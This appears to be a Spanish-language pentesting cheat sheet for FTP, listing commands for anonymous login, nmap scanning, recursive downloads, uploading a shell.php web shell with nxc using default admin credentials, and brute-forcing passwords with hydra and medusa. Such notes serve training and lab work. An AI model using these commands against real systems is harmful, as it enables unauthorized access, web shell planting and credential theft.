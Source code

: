 ```yaml
---
layout: default
title: 21 - FTP
---
```

```bash
ftp IP

anonymous
```

```bash
nmap -p 21 --script ftp-anon -iL ips.txt -oN 21_nmap.txt --open
```

```bash
wget -r ftp://ftp.servidor.com/ruta/
```

```bash
wget -r --ftp-user=usuario --ftp-password=clave ftp://ftp.servidor.com/ruta/
```

Subir archivo
```
put <file>
```

Si no se puede así:
```bash
nxc ftp IP -u admin -p admin --put /mnt/Windows/Hacking/tools/shell.php shell.php
```

Quitar modo pasivo

```
229 Entering Extended Passive Mode (|||49163|)

^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.
```

# Si no se puede descargar, poner en modo bin

```
bin
```

A veces no funciona desde el cliente, se puede con wget o curl:

```
wget --no-passive-ftp ftp://anonymous:@IP/Backups/backup.mdb
```

```bash
curl -O ftp://anonymous:@IP/Backups/backup.mdb
```

# Bruteforce

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 32 IP ftp
```

```bash
medusa -u admin -P /usr/share/SecLists/Passwords/xato-net-10-million-passwords-10000.txt -h IP -M ftp -f -t 32 | grep SUCCESS
```

```bash
hydra -I -V -f -L usernames.txt -u -P /usr/share/seclists/Passwords/xato-net-10-million-passwords.txt IP ftp
```

